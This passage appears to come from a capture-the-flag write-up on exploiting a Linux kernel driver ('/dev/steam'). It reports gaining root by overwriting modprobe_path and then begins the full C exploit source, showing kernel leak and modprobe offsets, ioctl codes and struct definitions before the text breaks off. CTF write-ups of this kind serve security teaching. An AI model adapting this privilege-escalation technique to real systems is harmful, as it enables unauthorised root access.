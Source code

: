 Success! (ignore the fact that I am already root - this is a test environment)
![](https://i.imgur.com/48r45X3.png)

After we overwriting `modprobe_path`, we are pretty much done and can easily obtain root, giving us the flag:
![](https://i.imgur.com/AdmeqYC.png)

### Full Exploit Source

```c=
#include <stdio.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>
#include <stdint.h>
#include <stdlib.h>
#include <pthread.h>
#include <sys/msg.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>

#define ARRAY_SIZE(x) (sizeof(x)/sizeof((*x)))

#define DEVICE_NAME "/dev/steam"
#define LEAK_OFFSET (0xffffffffac627710 - 0xffffffffac400000)
#define MODPROBE_OFFSET (0xffffffffad0231e0 - 0xffffffffac600000)

#define MAX_ENGINES 0x100
#define MAX_COMPARTMENTS 0x200

#define NAME_SZ 0x28
#define DESC_SZ 0x70
#define LOG_SZ 0x100

#define ADD_ENGINE 0xc00010ff
#define ADD_COMPARTMENT 0x1337beef
#define DELETE_COMPARTMENT 0xdeadbeef
#define SHOW_ENGINE_LOG 0xcafebeef
#define UPDATE_ENGINE_LOG 0xbaadbeef

//typedef int32_t steamid_t;
typedef uint64_t steamid_t;

typedef struct
{
    uint32_t id;
    uint8_t usage;
    char engine_name[NAME_SZ];
    char *logs;
}engine_t;

typedef struct
{
    uint32_t id;
    char compartment_desc[DESC_SZ];
    engine_t *engine;
}compartment_t;

typedef struct
{
    uint32_t id;
```